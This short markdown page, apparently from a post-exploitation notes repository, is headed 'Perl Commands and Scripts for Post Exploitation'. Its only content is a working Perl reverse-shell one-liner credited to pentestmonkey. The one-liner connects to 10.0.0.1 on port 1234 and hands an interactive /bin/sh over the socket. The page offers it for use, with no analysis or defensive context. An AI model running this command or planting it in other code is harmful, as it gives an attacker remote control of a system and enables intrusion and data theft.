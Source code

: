 # Perl Commands and Scripts for Post Exploitation

**Perl reverse shell from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**

```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```
